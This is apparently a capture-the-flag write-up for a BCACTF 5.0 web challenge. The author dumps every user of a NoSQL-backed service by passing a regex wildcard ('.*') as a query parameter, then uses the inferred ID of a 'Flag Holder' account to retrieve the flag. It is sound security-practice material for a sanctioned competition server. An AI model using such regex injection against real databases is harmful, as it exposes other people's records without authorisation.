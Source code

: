 # BCACTF 5.0

## NOSQL - 25 | webex

### Description: 
I found this database that does not use SQL, is there any way to break it?

Web servers:

`challs.bcactf.com:30390`

Static resources:
 [here](https://arcs-s3-repo.nyc3.cdn.digitaloceanspaces.com/no-sql/provided.js).


### Solve :

sso first we try to list all the users in db 
`http://challs.bcactf.com:30390/?name=.*`
 
we recieved

``{"rtnValues":["Ricardo Olsen","April Park","Francis Jackson","Ana Barry","Clifford Craig","Andrew Wise","Ada Atkinson","Janis McIntosh","Rosie Parsons","Neal Weaver","Alyssa Robison","Michael Hurst","Roberto Thornton","Renee Schwartz","Darryl Wilson","Wayne Boyle","Loretta Camacho","Bert Morton","Suzanne Johnson","Carol Fowler","Rose Hansen","Aimee Norman","Bethany Foley","Benjamin Baily","David Hull","Sabrina Fish","Rick Kirby","Edgar Grimes","Blake McDermott","Alicia Crosby","Teresa Ortega","Carroll Darling","Louis Tate","Phillip Fuller","Clinton Kimball","Alma Matthews","Stacie Franklin","Lucinda Steward","Gina Andrews","Philip Hyde","Devin Riggs","Michelle Thornton","Rogelio Freeman","Arthur Stephens","Andy Leon","Megan Gould","Myrna Yates","Edwin Pearce","Shirley Cannon","Lowell Cochran","Flag Holder"]}``


we know that olssen ricardo have id of 1 so flag holder after count will have id of 51 so 

`http://challs.bcactf.com:30390/51/Flag/Holder`
and yeah we got our flag 
**bcactf{R3gex_WH1z_54dfa9cdba13}**
